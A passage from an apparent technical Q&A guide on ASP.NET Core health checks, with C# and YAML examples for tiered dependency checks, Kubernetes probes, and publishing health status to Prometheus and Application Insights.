            {
                _logger.LogError(ex, "Background health check failed");
            }
        }
    }

    private async Task PerformHealthChecksAsync(CancellationToken cancellationToken)
    {
        using var scope = _serviceProvider.CreateScope();
        var healthChecks = scope.ServiceProvider.GetServices<IHealthCheck>();

        var tasks = healthChecks.Select(async check =>
        {
            var context = new HealthCheckContext
            {
                Registration = new HealthCheckRegistration(
                    check.GetType().Name,
                    check,
                    HealthStatus.Unhealthy,
                    null)
            };

            var result = await check.CheckHealthAsync(context, cancellationToken);
            _results.Update(check.GetType().Name, result);
        });

        await Task.WhenAll(tasks);
    }
}

// Shared results storage
public class HealthCheckResults
{
    private readonly ConcurrentDictionary<string, HealthCheckResult> _results = new();
    private DateTime _lastUpdate = DateTime.UtcNow;

    public void Update(string name, HealthCheckResult result)
    {
        _results.AddOrUpdate(name, result, (_, _) => result);
        _lastUpdate = DateTime.UtcNow;
    }

    public Dictionary<string, HealthCheckResult> GetResults()
    {
        return new Dictionary<string, HealthCheckResult>(_results);
    }

    public DateTime LastUpdate => _lastUpdate;
}

// 3. Tiered Health Check Pattern
public class TieredHealthCheck : IHealthCheck
{
    private readonly List<HealthCheckTier> _tiers;
    private readonly ILogger<TieredHealthCheck> _logger;

    public TieredHealthCheck(ILogger<TieredHealthCheck> logger)
    {
        _logger = logger;
        _tiers = new List<HealthCheckTier>
        {
            new HealthCheckTier
            {
                Name = "Critical",
                Timeout = TimeSpan.FromSeconds(2),
                Checks = new List<Func<CancellationToken, Task<bool>>>
                {
                    CheckDatabaseConnectivityAsync,
                    CheckRedisConnectivityAsync
                }
            },
            new HealthCheckTier
            {
                Name = "Important",
                Timeout = TimeSpan.FromSeconds(5),
                Checks = new List<Func<CancellationToken, Task<bool>>>
                {
                    CheckBlobStorageAsync,
                    CheckMessageQueueAsync
                }
            },
            new HealthCheckTier
            {
                Name = "Optional",
                Timeout = TimeSpan.FromSeconds(10),
                Checks = new List<Func<CancellationToken, Task<bool>>>
                {
                    CheckExternalApiAsync,
                    CheckAnalyticsServiceAsync
                }
            }
        };
    }

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        var degraded = false;
        var unhealthyReasons = new List<string>();
        var data = new Dictionary<string, object>();

        foreach (var tier in _tiers)
        {
            using var cts = CancellationTokenSource.CreateLinkedTokenSource(cancellationToken);
            cts.CancelAfter(tier.Timeout);

            var tierResults = await Task.WhenAll(
                tier.Checks.Select(async check =>
                {
                    try
                    {
                        return await check(cts.Token);
                    }
                    catch (OperationCanceledException)
                    {
                        _logger.LogWarning("Health check in tier {Tier} timed out", tier.Name);
                        return false;
                    }
                    catch (Exception ex)
                    {
                        _logger.LogError(ex, "Health check in tier {Tier} failed", tier.Name);
                        return false;
                    }
                })
            );

            var tierHealthy = tierResults.All(r => r);
            data[$"{tier.Name}Tier"] = tierHealthy ? "Healthy" : "Unhealthy";

            if (!tierHealthy)
            {
                if (tier.Name == "Critical")
                {
                    unhealthyReasons.Add($"{tier.Name} tier checks failed");
                    return HealthCheckResult.Unhealthy(
                        string.Join("; ", unhealthyReasons),
                        data: data);
                }
                else
                {
                    degraded = true;
                    unhealthyReasons.Add($"{tier.Name} tier degraded");
                }
            }
        }

        if (degraded)
        {
            return HealthCheckResult.Degraded(
                "Service is degraded: " + string.Join("; ", unhealthyReasons),
                data: data);
        }

        return HealthCheckResult.Healthy("All health checks passed", data);
    }

    private async Task<bool> CheckDatabaseConnectivityAsync(CancellationToken cancellationToken)
    {
        // Lightweight connectivity check - not full query
        using var connection = new SqlConnection(_connectionString);
        await connection.OpenAsync(cancellationToken);
        return connection.State == ConnectionState.Open;
    }
}
```

### Dependency-Specific Health Checks

```csharp
// 1. Database Health Check with Performance Optimization
public class OptimizedSqlHealthCheck : IHealthCheck
{
    private readonly string _connectionString;
    private readonly ILogger<OptimizedSqlHealthCheck> _logger;
    private static readonly string HealthCheckQuery = "SELECT 1";

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        try
        {
            using var connection = new SqlConnection(_connectionString);
            using var command = new SqlCommand(HealthCheckQuery, connection);
            
            // Set aggressive timeout for health check
            command.CommandTimeout = 3;
            
            var stopwatch = Stopwatch.StartNew();
            await connection.OpenAsync(cancellationToken);
            await command.ExecuteScalarAsync(cancellationToken);
            stopwatch.Stop();

            var data = new Dictionary<string, object>
            {
                ["ResponseTime"] = stopwatch.ElapsedMilliseconds,
                ["Database"] = connection.Database
            };

            if (stopwatch.ElapsedMilliseconds > 1000)
            {
                return HealthCheckResult.Degraded(
                    $"Database response slow: {stopwatch.ElapsedMilliseconds}ms",
                    data: data);
            }

            return HealthCheckResult.Healthy(
                $"Database responsive in {stopwatch.ElapsedMilliseconds}ms",
                data: data);
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Database health check failed");
            return HealthCheckResult.Unhealthy("Database connection failed", ex);
        }
    }
}

// 2. Redis Health Check with Circuit Breaker
public class ResilientRedisHealthCheck : IHealthCheck
{
    private readonly IConnectionMultiplexer _redis;
    private readonly ICircuitBreaker _circuitBreaker;
    private readonly ILogger<ResilientRedisHealthCheck> _logger;

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        return await _circuitBreaker.ExecuteAsync(async () =>
        {
            if (!_redis.IsConnected)
            {
                return HealthCheckResult.Unhealthy("Redis not connected");
            }

            var database = _redis.GetDatabase();
            var stopwatch = Stopwatch.StartNew();
            
            // Simple ping command
            var latency = await database.PingAsync();
            stopwatch.Stop();

            var data = new Dictionary<string, object>
            {
                ["Latency"] = latency.TotalMilliseconds,
                ["Connected"] = _redis.IsConnected,
                ["Configuration"] = _redis.Configuration
            };

            if (latency.TotalMilliseconds > 100)
            {
                return HealthCheckResult.Degraded(
                    $"Redis latency high: {latency.TotalMilliseconds}ms",
                    data: data);
            }

            return HealthCheckResult.Healthy(
                $"Redis healthy, latency: {latency.TotalMilliseconds}ms",
                data: data);
        },
        fallback: () => HealthCheckResult.Unhealthy("Circuit breaker open for Redis"));
    }
}

// 3. HTTP API Health Check
public class HttpApiHealthCheck : IHealthCheck
{
    private readonly HttpClient _httpClient;
    private readonly string _healthEndpoint;
    private readonly ILogger<HttpApiHealthCheck> _logger;

    public HttpApiHealthCheck(
        HttpClient httpClient,
        string healthEndpoint,
        ILogger<HttpApiHealthCheck> logger)
    {
        _httpClient = httpClient;
        _healthEndpoint = healthEndpoint;
        _logger = logger;
        
        // Configure HTTP client for health checks
        _httpClient.Timeout = TimeSpan.FromSeconds(5);
    }

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        try
        {
            var stopwatch = Stopwatch.StartNew();
            var response = await _httpClient.GetAsync(_healthEndpoint, cancellationToken);
            stopwatch.Stop();

            var data = new Dictionary<string, object>
            {
                ["StatusCode"] = (int)response.StatusCode,
                ["ResponseTime"] = stopwatch.ElapsedMilliseconds,
                ["Endpoint"] = _healthEndpoint
            };

            if (!response.IsSuccessStatusCode)
            {
                return HealthCheckResult.Unhealthy(
                    $"API returned {response.StatusCode}",
                    data: data);
            }

            if (stopwatch.ElapsedMilliseconds > 3000)
            {
                return HealthCheckResult.Degraded(
                    $"API response slow: {stopwatch.ElapsedMilliseconds}ms",
                    data: data);
            }

            return HealthCheckResult.Healthy(
                $"API healthy, responded in {stopwatch.ElapsedMilliseconds}ms",
                data: data);
        }
        catch (TaskCanceledException)
        {
            return HealthCheckResult.Unhealthy("API health check timed out");
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "API health check failed");
            return HealthCheckResult.Unhealthy("API health check exception", ex);
        }
    }
}

// 4. Composite Health Check
public class CompositeHealthCheck : IHealthCheck
{
    private readonly IEnumerable<IHealthCheck> _healthChecks;
    private readonly ParallelOptions _parallelOptions;

    public CompositeHealthCheck(IEnumerable<IHealthCheck> healthChecks)
    {
        _healthChecks = healthChecks;
        _parallelOptions = new ParallelOptions
        {
            MaxDegreeOfParallelism = 5 // Limit concurrent checks
        };
    }

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        var results = new ConcurrentBag<(string Name, HealthCheckResult Result)>();

        await Parallel.ForEachAsync(_healthChecks, _parallelOptions, async (check, ct) =>
        {
            var result = await check.CheckHealthAsync(context, ct);
            results.Add((check.GetType().Name, result));
        });

        var data = results.ToDictionary(
            r => r.Name,
            r => (object)new
            {
                Status = r.Result.Status.ToString(),
                Description = r.Result.Description,
                Duration = r.Result.Data?.GetValueOrDefault("Duration")
            });

        var unhealthy = results.Where(r => r.Result.Status == HealthStatus.Unhealthy).ToList();
        var degraded = results.Where(r => r.Result.Status == HealthStatus.Degraded).ToList();

        if (unhealthy.Any())
        {
            return HealthCheckResult.Unhealthy(
                $"Unhealthy: {string.Join(", ", unhealthy.Select(r => r.Name))}",
                data: data);
        }

        if (degraded.Any())
        {
            return HealthCheckResult.Degraded(
                $"Degraded: {string.Join(", ", degraded.Select(r => r.Name))}",
                data: data);
        }

        return HealthCheckResult.Healthy("All checks passed", data);
    }
}
```

### Health Check Configuration

```csharp
// Program.cs configuration
var builder = WebApplication.CreateBuilder(args);

// Configure health checks
builder.Services.AddHealthChecks()
    // Liveness probe - basic app health
    .AddCheck("self", () => HealthCheckResult.Healthy(), tags: new[] { "liveness" })
    
    // Readiness probes - dependencies
    .AddTypeActivatedCheck<OptimizedSqlHealthCheck>(
        "sql",
        failureStatus: HealthStatus.Unhealthy,
        tags: new[] { "readiness", "critical" },
        args: new object[] { builder.Configuration.GetConnectionString("DefaultConnection") })
    
    .AddTypeActivatedCheck<ResilientRedisHealthCheck>(
        "redis",
        failureStatus: HealthStatus.Degraded,
        tags: new[] { "readiness", "important" })
    
    .AddTypeActivatedCheck<HttpApiHealthCheck>(
        "external-api",
        failureStatus: HealthStatus.Degraded,
        tags: new[] { "readiness", "optional" },
        args: new object[] { "https://api.example.com/health" })
    
    // Startup probe - initialization checks
    .AddCheck<StartupHealthCheck>(
        "startup",
        tags: new[] { "startup" });

// Configure health check options
builder.Services.Configure<HealthCheckOptions>(options =>
{
    options.Delay = TimeSpan.FromSeconds(5); // Initial delay
    options.Period = TimeSpan.FromSeconds(30); // Check interval
    options.Timeout = TimeSpan.FromSeconds(10); // Overall timeout
});

// Add background health check service
builder.Services.AddSingleton<HealthCheckResults>();
builder.Services.AddHostedService<BackgroundHealthCheckService>();

// Configure health check UI (optional)
builder.Services.AddHealthChecksUI(options =>
{
    options.SetEvaluationTimeInSeconds(30);
    options.MaximumHistoryEntriesPerEndpoint(50);
    options.SetApiMaxActiveRequests(1);
})
.AddInMemoryStorage();

var app = builder.Build();

// Map health check endpoints
app.MapHealthChecks("/health/live", new HealthCheckOptions
{
    Predicate = check => check.Tags.Contains("liveness"),
    ResponseWriter = WriteResponseAsync
});

app.MapHealthChecks("/health/ready", new HealthCheckOptions
{
    Predicate = check => check.Tags.Contains("readiness"),
    ResponseWriter = WriteResponseAsync
});

app.MapHealthChecks("/health/startup", new HealthCheckOptions
{
    Predicate = check => check.Tags.Contains("startup"),
    ResponseWriter = WriteResponseAsync
});

// Detailed health endpoint (protected)
app.MapHealthChecks("/health/detailed", new HealthCheckOptions
{
    ResponseWriter = WriteDetailedResponseAsync,
    AllowCachingResponses = false
}).RequireAuthorization("HealthCheckPolicy");

// Health check UI
app.MapHealthChecksUI(options =>
{
    options.UIPath = "/health-ui";
    options.ApiPath = "/health-api";
}).RequireAuthorization("HealthCheckPolicy");

// Custom response writers
static async Task WriteResponseAsync(HttpContext context, HealthReport report)
{
    context.Response.ContentType = "application/json";
    
    var response = new
    {
        status = report.Status.ToString(),
        timestamp = DateTime.UtcNow
    };
    
    await context.Response.WriteAsync(JsonSerializer.Serialize(response));
}

static async Task WriteDetailedResponseAsync(HttpContext context, HealthReport report)
{
    context.Response.ContentType = "application/json";
    
    var response = new
    {
        status = report.Status.ToString(),
        duration = report.TotalDuration.TotalMilliseconds,
        timestamp = DateTime.UtcNow,
        checks = report.Entries.Select(e => new
        {
            name = e.Key,
            status = e.Value.Status.ToString(),
            description = e.Value.Description,
            duration = e.Value.Duration.TotalMilliseconds,
            exception = e.Value.Exception?.Message,
            data = e.Value.Data
        })
    };
    
    await context.Response.WriteAsync(
        JsonSerializer.Serialize(response, new JsonSerializerOptions
        {
            WriteIndented = true
        }));
}
```

### Kubernetes Integration

```yaml
# Kubernetes deployment with health checks
apiVersion: apps/v1
kind: Deployment
metadata:
  name: puzzle-api
spec:
  template:
    spec:
      containers:
      - name: api
        image: puzzle-api:latest
        ports:
        - containerPort: 8080
        
        # Liveness probe - restart if fails
        livenessProbe:
          httpGet:
            path: /health/live
            port: 8080
          initialDelaySeconds: 10
          periodSeconds: 30
          timeoutSeconds: 5
          failureThreshold: 3
          
        # Readiness probe - remove from load balancer if fails
        readinessProbe:
          httpGet:
            path: /health/ready
            port: 8080
          initialDelaySeconds: 5
          periodSeconds: 10
          timeoutSeconds: 3
          failureThreshold: 2
          
        # Startup probe - for slow starting containers
        startupProbe:
          httpGet:
            path: /health/startup
            port: 8080
          initialDelaySeconds: 0
          periodSeconds: 5
          timeoutSeconds: 3
          failureThreshold: 30 # 30 * 5 = 150 seconds max startup
```

### Advanced Health Check Patterns

```csharp
// 1. Adaptive Health Check
public class AdaptiveHealthCheck : IHealthCheck
{
    private readonly IMetricsCollector _metrics;
    private readonly IConfiguration _configuration;
    private int _consecutiveFailures = 0;
    private TimeSpan _currentTimeout = TimeSpan.FromSeconds(1);

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        using var cts = CancellationTokenSource.CreateLinkedTokenSource(cancellationToken);
        cts.CancelAfter(_currentTimeout);

        try
        {
            var result = await PerformCheckAsync(cts.Token);
            
            if (result.Status == HealthStatus.Healthy)
            {
                // Reset on success
                _consecutiveFailures = 0;
                _currentTimeout = TimeSpan.FromSeconds(1);
            }
            else
            {
                _consecutiveFailures++;
                // Exponential backoff for timeout
                _currentTimeout = TimeSpan.FromSeconds(Math.Min(10, Math.Pow(2, _consecutiveFailures)));
            }

            return result;
        }
        catch (OperationCanceledException)
        {
            _consecutiveFailures++;
            return HealthCheckResult.Unhealthy($"Health check timed out after {_currentTimeout.TotalSeconds}s");
        }
    }
}

// 2. Sampling Health Check
public class SamplingHealthCheck : IHealthCheck
{
    private readonly Random _random = new();
    private readonly double _sampleRate;
    private DateTime _lastFullCheck = DateTime.MinValue;
    private HealthCheckResult _lastResult = HealthCheckResult.Healthy();

    public SamplingHealthCheck(double sampleRate = 0.1) // 10% sampling
    {
        _sampleRate = sampleRate;
    }

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        // Always do full check if it's been too long
        if (DateTime.UtcNow - _lastFullCheck > TimeSpan.FromMinutes(5))
        {
            _lastResult = await PerformFullCheckAsync(cancellationToken);
            _lastFullCheck = DateTime.UtcNow;
            return _lastResult;
        }

        // Sample-based checking
        if (_random.NextDouble() < _sampleRate)
        {
            _lastResult = await PerformFullCheckAsync(cancellationToken);
            _lastFullCheck = DateTime.UtcNow;
        }

        return _lastResult;
    }
}

// 3. Resource-Aware Health Check
public class ResourceAwareHealthCheck : IHealthCheck
{
    private readonly IMemoryCache _cache;
    private readonly Process _currentProcess = Process.GetCurrentProcess();

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        var cpuUsage = await GetCpuUsageAsync();
        var memoryInfo = GC.GetMemoryInfo();
        var threadCount = ThreadPool.ThreadCount;
        
        var data = new Dictionary<string, object>
        {
            ["CpuUsage"] = $"{cpuUsage:F2}%",
            ["MemoryUsed"] = $"{memoryInfo.HeapSizeBytes / 1024 / 1024}MB",
            ["ThreadCount"] = threadCount,
            ["Gen0Collections"] = GC.CollectionCount(0),
            ["Gen1Collections"] = GC.CollectionCount(1),
            ["Gen2Collections"] = GC.CollectionCount(2)
        };

        // Skip expensive checks if under load
        if (cpuUsage > 80)
        {
            return HealthCheckResult.Degraded(
                "Skipping detailed checks due to high CPU usage",
                data: data);
        }

        // Perform normal health checks
        var healthCheckTasks = new List<Task<bool>>();
        
        if (cpuUsage < 50) // Only run all checks if CPU is low
        {
            healthCheckTasks.Add(CheckDatabaseAsync(cancellationToken));
            healthCheckTasks.Add(CheckRedisAsync(cancellationToken));
            healthCheckTasks.Add(CheckExternalApisAsync(cancellationToken));
        }
        else // Run only critical checks
        {
            healthCheckTasks.Add(CheckDatabaseAsync(cancellationToken));
        }

        var results = await Task.WhenAll(healthCheckTasks);
        
        if (results.All(r => r))
        {
            return HealthCheckResult.Healthy("All checks passed", data);
        }

        return HealthCheckResult.Unhealthy("Some checks failed", data: data);
    }

    private async Task<double> GetCpuUsageAsync()
    {
        var startTime = DateTime.UtcNow;
        var startCpuUsage = _currentProcess.TotalProcessorTime;
        
        await Task.Delay(100);
        
        var endTime = DateTime.UtcNow;
        var endCpuUsage = _currentProcess.TotalProcessorTime;
        
        var cpuUsedMs = (endCpuUsage - startCpuUsage).TotalMilliseconds;
        var totalMsPassed = (endTime - startTime).TotalMilliseconds;
        var cpuUsageTotal = cpuUsedMs / (Environment.ProcessorCount * totalMsPassed);
        
        return cpuUsageTotal * 100;
    }
}
```

### Performance Best Practices

```yaml
Health Check Design Principles:
  1. Keep Checks Lightweight:
     - No complex queries
     - No data processing
     - Minimal network calls
     - Short timeouts
  
  2. Use Caching Strategically:
     - Cache expensive checks
     - Background refresh
     - Sliding expiration
     - Invalidate on errors
  
  3. Implement Tiering:
     - Critical: < 1 second
     - Important: < 3 seconds
     - Optional: < 5 seconds
     - Fail fast on critical
  
  4. Avoid Cascading Checks:
     - Don't check transitive dependencies
     - Focus on direct dependencies
     - Let each service check itself
     - Prevent check amplification

Implementation Guidelines:
  1. Connection Pooling:
     - Reuse connections
     - Don't create per check
     - Monitor pool health
     - Set appropriate limits
  
  2. Timeout Management:
     - Set aggressive timeouts
     - Use cancellation tokens
     - Implement circuit breakers
     - Graceful degradation
  
  3. Resource Monitoring:
     - Track check duration
     - Monitor check frequency
     - Alert on check costs
     - Implement rate limiting
  
  4. Error Handling:
     - Catch all exceptions
     - Log appropriately
     - Return meaningful status
     - Include debug data

Monitoring Patterns:
  1. Metrics Collection:
     - Check duration
     - Success/failure rates
     - Resource usage
     - Dependency status
  
  2. Alerting Strategy:
     - Alert on sustained failures
     - Not on transient issues
     - Consider flapping detection
     - Implement alert fatigue prevention
  
  3. Dashboard Design:
     - Current status overview
     - Historical trends
     - Dependency mapping
     - Performance metrics
```

**Key Insight**: Quality health checks balance comprehensive monitoring with minimal performance impact by using caching, background processing, tiered checks, and resource-aware strategies. They should fail fast, provide meaningful data, and avoid expensive operations while giving accurate system status for both orchestrators and monitoring systems.

## Question 59: How do health checks internally connect to Prometheus and/or App Insights

Health checks expose system status that monitoring platforms like Prometheus and Application Insights can collect, store, and alert on. Understanding this integration is crucial for building comprehensive observability.

### Health Checks to Prometheus Integration

```csharp
// 1. Prometheus Metrics from Health Checks
public class HealthCheckMetricsPublisher : IHealthCheckPublisher
{
    private readonly ILogger<HealthCheckMetricsPublisher> _logger;
    
    // Prometheus metrics
    private readonly Gauge _healthCheckStatus;
    private readonly Histogram _healthCheckDuration;
    private readonly Counter _healthCheckExecutions;

    public HealthCheckMetricsPublisher(ILogger<HealthCheckMetricsPublisher> logger)
    {
        _logger = logger;
        
        // Define Prometheus metrics
        _healthCheckStatus = Metrics.CreateGauge(
            "health_check_status",
            "Health check status (0=Healthy, 1=Degraded, 2=Unhealthy)",
            new GaugeConfiguration
            {
                LabelNames = new[] { "name", "tags" }
            });

        _healthCheckDuration = Metrics.CreateHistogram(
            "health_check_duration_seconds",
            "Health check execution duration in seconds",
            new HistogramConfiguration
            {
                LabelNames = new[] { "name", "tags" },
                Buckets = Histogram.ExponentialBuckets(0.001, 2, 10) // 1ms to ~1s
            });

        _healthCheckExecutions = Metrics.CreateCounter(
            "health_check_executions_total",
            "Total number of health check executions",
            new CounterConfiguration
            {
                LabelNames = new[] { "name", "status", "tags" }
            });
    }

    public Task PublishAsync(HealthReport report, CancellationToken cancellationToken)
    {
        foreach (var entry in report.Entries)
        {
            var labels = new[]
            {
                entry.Key,
                string.Join(",", entry.Value.Tags)
            };

            // Update status gauge (0=Healthy, 1=Degraded, 2=Unhealthy)
            var statusValue = entry.Value.Status switch
            {
                HealthStatus.Healthy => 0,
                HealthStatus.Degraded => 1,
                HealthStatus.Unhealthy => 2,
                _ => 2
            };
            _healthCheckStatus.WithLabels(labels).Set(statusValue);

            // Record duration
            _healthCheckDuration
                .WithLabels(labels)
                .Observe(entry.Value.Duration.TotalSeconds);

            // Increment execution counter
            _healthCheckExecutions
                .WithLabels(entry.Key, entry.Value.Status.ToString(), string.Join(",", entry.Value.Tags))
                .Inc();

            // Log detailed metrics for debugging
            _logger.LogDebug(
                "Published health check metrics for {HealthCheckName}: Status={Status}, Duration={Duration}ms",
                entry.Key,
                entry.Value.Status,
                entry.Value.Duration.TotalMilliseconds);
        }

        // Publish overall health status
        var overallStatus = report.Status switch
        {
            HealthStatus.Healthy => 0,
            HealthStatus.Degraded => 1,
            HealthStatus.Unhealthy => 2,
            _ => 2
        };
        
        _healthCheckStatus
            .WithLabels("overall", "all")
            .Set(overallStatus);

        return Task.CompletedTask;
    }
}

// 2. Custom Prometheus Exporter for Health Checks
public class HealthCheckPrometheusExporter : BackgroundService
{
    private readonly IHealthCheckService _healthCheckService;
    private readonly ILogger<HealthCheckPrometheusExporter> _logger;
    private readonly TimeSpan _exportInterval;
    
    // Additional custom metrics
    private readonly Gauge _dependencyAvailability;
    private readonly Summary _healthCheckLatency;

    public HealthCheckPrometheusExporter(
        IHealthCheckService healthCheckService,
        ILogger<HealthCheckPrometheusExporter> logger)
    {
        _healthCheckService = healthCheckService;
        _logger = logger;
        _exportInterval = TimeSpan.FromSeconds(15);

        // Define custom metrics
        _dependencyAvailability = Metrics.CreateGauge(
            "dependency_availability",
            "Availability of external dependencies (0=Down, 1=Up)",
            new GaugeConfiguration
            {
                LabelNames = new[] { "dependency", "type" }
            });

        _healthCheckLatency = Metrics.CreateSummary(
            "health_check_latency_milliseconds",
            "Health check latency in milliseconds",
            new SummaryConfiguration
            {
                LabelNames = new[] { "check", "dependency" },
                Objectives = new[]
                {
                    new QuantileEpsilonPair(0.5, 0.05),   // 50th percentile
                    new QuantileEpsilonPair(0.9, 0.05),   // 90th percentile
                    new QuantileEpsilonPair(0.95, 0.01),  // 95th percentile
                    new QuantileEpsilonPair(0.99, 0.01)   // 99th percentile
                }
            });
    }

    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        while (!stoppingToken.IsCancellationRequested)
        {
            try
            {
                await ExportHealthMetricsAsync(stoppingToken);
                await Task.Delay(_exportInterval, stoppingToken);
            }
            catch (Exception ex)
            {
                _logger.LogError(ex, "Error exporting health metrics to Prometheus");
            }
        }
    }

    private async Task ExportHealthMetricsAsync(CancellationToken cancellationToken)
    {
        var report = await _healthCheckService.CheckHealthAsync(cancellationToken);

        foreach (var (name, entry) in report.Entries)
        {
            // Extract dependency type from tags or name
            var dependencyType = GetDependencyType(name, entry.Tags);
            
            // Update availability metric
            _dependencyAvailability
                .WithLabels(name, dependencyType)
                .Set(entry.Status == HealthStatus.Healthy ? 1 : 0);

            // Record latency
            _healthCheckLatency
                .WithLabels(name, dependencyType)
                .Observe(entry.Duration.TotalMilliseconds);

            // Export additional data if available
            if (entry.Data != null)
            {
                ExportCustomMetrics(name, entry.Data);
            }
        }
    }

    private void ExportCustomMetrics(string checkName, IReadOnlyDictionary<string, object> data)
    {
        // Export response time if available
        if (data.TryGetValue("ResponseTime", out var responseTime) && responseTime is double time)
        {
            Metrics.CreateGauge(
                $"health_check_{checkName}_response_time_ms",
                $"Response time for {checkName} in milliseconds")
                .Set(time);
        }

        // Export connection count if available
        if (data.TryGetValue("ConnectionCount", out var connCount) && connCount is int count)
        {
            Metrics.CreateGauge(
                $"health_check_{checkName}_connections",
                $"Active connections for {checkName}")
                .Set(count);
        }
    }
}
```

### Application Insights Integration

```csharp
// 1. Application Insights Health Check Publisher
public class ApplicationInsightsHealthCheckPublisher : IHealthCheckPublisher
{
    private readonly TelemetryClient _telemetryClient;
    private readonly ILogger<ApplicationInsightsHealthCheckPublisher> _logger;

    public ApplicationInsightsHealthCheckPublisher(
        TelemetryClient telemetryClient,
        ILogger<ApplicationInsightsHealthCheckPublisher> logger)
    {
        _telemetryClient = telemetryClient;
        _logger = logger;
    }

    public Task PublishAsync(HealthReport report, CancellationToken cancellationToken)
    {
        // Track overall health as custom event
        var healthEvent = new EventTelemetry("HealthCheckReport")
        {
            Timestamp = DateTimeOffset.UtcNow
        };

        healthEvent.Properties["OverallStatus"] = report.Status.ToString();
        healthEvent.Properties["TotalDuration"] = report.TotalDuration.TotalMilliseconds.ToString();
        healthEvent.Properties["CheckCount"] = report.Entries.Count.ToString();

        // Track as metric for aggregation
        _telemetryClient.TrackMetric(
            "HealthCheckStatus",
            GetStatusValue(report.Status),
            new Dictionary<string, string>
            {
                ["Type"] = "Overall"
            });

        // Track individual checks
        foreach (var (name, entry) in report.Entries)
        {
            // Track as availability test
            var availability = new AvailabilityTelemetry
            {
                Name = $"HealthCheck:{name}",
                RunLocation = Environment.MachineName,
                Success = entry.Status == HealthStatus.Healthy,
                Duration = entry.Duration,
                Timestamp = DateTimeOffset.UtcNow,
                Message = entry.Description ?? entry.Status.ToString()
            };

            // Add properties
            availability.Properties["Status"] = entry.Status.ToString();
            availability.Properties["Tags"] = string.Join(",", entry.Tags);
            
            if (entry.Exception != null)
            {
                availability.Properties["Exception"] = entry.Exception.GetType().Name;
                availability.Properties["ExceptionMessage"] = entry.Exception.Message;
            }

            // Add metrics from health check data
            if (entry.Data != null)
            {
                foreach (var (key, value) in entry.Data)
                {
                    availability.Properties[$"Data.{key}"] = value?.ToString() ?? "null";
                    
                    // Track numeric values as metrics
                    if (value is double || value is int || value is long)
                    {
                        _telemetryClient.TrackMetric(
                            $"HealthCheck.{name}.{key}",
                            Convert.ToDouble(value),
                            new Dictionary<string, string>
                            {
                                ["CheckName"] = name,
                                ["MetricName"] = key
                            });
                    }
                }
            }

            _telemetryClient.TrackAvailability(availability);

            // Track dependency for external services
            if (IsExternalDependency(name, entry.Tags))
            {
                var dependency = new DependencyTelemetry
                {
                    Name = name,
                    Type = GetDependencyType(name, entry.Tags),
                    Duration = entry.Duration,
                    Success = entry.Status == HealthStatus.Healthy,
                    Timestamp = DateTimeOffset.UtcNow,
                    Data = entry.Description
                };

                _telemetryClient.TrackDependency(dependency);
            }

            // Log degraded/unhealthy checks as warnings/errors
            if (entry.Status != HealthStatus.Healthy)
            {
                var logLevel = entry.Status == HealthStatus.Degraded
                    ? LogLevel.Warning
                    : LogLevel.Error;

                _logger.Log(
                    logLevel,
                    entry.Exception,
                    "Health check {HealthCheckName} is {Status}: {Description}",
                    name,
                    entry.Status,
                    entry.Description);
            }
        }

        _telemetryClient.TrackEvent(healthEvent);
        
        // Ensure telemetry is sent immediately for critical health status
        if (report.Status == HealthStatus.Unhealthy)
        {
            _telemetryClient.Flush();
        }

        return Task.CompletedTask;
    }

    private double GetStatusValue(HealthStatus status) => status switch
    {
        HealthStatus.Healthy => 0,
        HealthStatus.Degraded => 1,
        HealthStatus.Unhealthy => 2,
        _ => 2
    };

    private bool IsExternalDependency(string name, IEnumerable<string> tags)
    {
        return tags.Contains("external") || 
               name.Contains("api", StringComparison.OrdinalIgnoreCase) ||
               name.Contains("database", StringComparison.OrdinalIgnoreCase) ||
               name.Contains("redis", StringComparison.OrdinalIgnoreCase);
    }

    private string GetDependencyType(string name, IEnumerable<string> tags)
    {
        if (name.Contains("sql", StringComparison.OrdinalIgnoreCase))
            return "SQL";
        if (name.Contains("redis", StringComparison.OrdinalIgnoreCase))
            return "Redis";
        if (name.Contains("http", StringComparison.OrdinalIgnoreCase))
            return "HTTP";
        if (name.Contains("blob", StringComparison.OrdinalIgnoreCase))
            return "Azure Blob";
        
        return "Other";
    }
}

// 2. Custom Application Insights Telemetry Initializer
public class HealthCheckTelemetryInitializer : ITelemetryInitializer
{
    private readonly IHttpContextAccessor _httpContextAccessor;

    public HealthCheckTelemetryInitializer(IHttpContextAccessor httpContextAccessor)
    {
        _httpContextAccessor = httpContextAccessor;
    }

    public void Initialize(ITelemetry telemetry)
    {
        var context = _httpContextAccessor.HttpContext;
        if (context?.Request?.Path.StartsWithSegments("/health") == true)
        {
            // Mark health check requests
            telemetry.Context.Properties["IsHealthCheck"] = "true";
            
            // Add health check type
            if (context.Request.Path.Value.Contains("live"))
                telemetry.Context.Properties["HealthCheckType"] = "Liveness";
            else if (context.Request.Path.Value.Contains("ready"))
                telemetry.Context.Properties["HealthCheckType"] = "Readiness";
            else if (context.Request.Path.Value.Contains("startup"))
                telemetry.Context.Properties["HealthCheckType"] = "Startup";

            // Reduce sampling for health checks to avoid noise
            if (telemetry is ISupportSampling supportsSampling)
            {
                supportsSampling.SamplingPercentage = 10; // Only sample 10% of health checks
            }
        }
    }
}
```

### Configuration and Wire-up

```csharp
// Program.cs - Configuring both Prometheus and Application Insights
var builder = WebApplication.CreateBuilder(args);

// Configure Application Insights
builder.Services.AddApplicationInsightsTelemetry(options =>
{
    options.ConnectionString = builder.Configuration["ApplicationInsights:ConnectionString"];
    options.EnableAdaptiveSampling = true;
    options.EnableHeartbeat = true;
    options.EnablePerformanceCounterCollectionModule = true;
});

// Add telemetry initializer
